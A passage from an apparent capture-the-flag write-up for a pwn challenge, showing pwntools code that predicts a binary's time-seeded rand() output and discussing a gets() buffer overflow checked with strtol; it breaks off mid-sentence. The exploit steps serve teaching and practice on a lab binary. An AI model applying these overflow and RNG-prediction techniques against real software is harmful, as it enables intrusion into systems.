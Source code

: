 ```py
from pwn import *
from ctypes import *

libc = cdll.LoadLibrary('/usr/lib/x86_64-linux-gnu/libc.so')
_time = libc.time(0x0)
libc.srand(_time)

guess = libc.rand()
```

This will allow us to generate a random number. Now, let's try and connect to the local binary, send `1` as input and then match if our script and the number provided match.

```py
from pwn import *
from ctypes import *


# Setting the binary context:
elf = context.binary = ELF('./chal')
io  = process()

libc = cdll.LoadLibrary(elf.libc.path)
_time = libc.time(0x0)
libc.srand(_time)

guess = libc.rand()

io.sendlineafter(b'Exit\n', b'1')
random = io.recvuntil(b'\n')[:-1].decode()

info(f"We guessed       : {guess}")
info(f"Program generated: {random}")
```

![chal](/static/writeups/amateurctf2023/pwn/rntk-2.png)

Now, we have successfully generated the random number. Now, we need to understand how we're going to overflow the buffer. Looking at these two lines of code:

```c
gets(buffer);
strL = strtol(buffer,(char **)0x0,10);
```

The first line, uses `gets` function, which is a vulnerable function. However, the next line uses `strol` which basically converts a string to long. 

```c
rnd = rand();
if (iStrL == rnd)
```

So, the `rnd` will generate a random number and then compare to the return value of `strol`. The `strol` function is
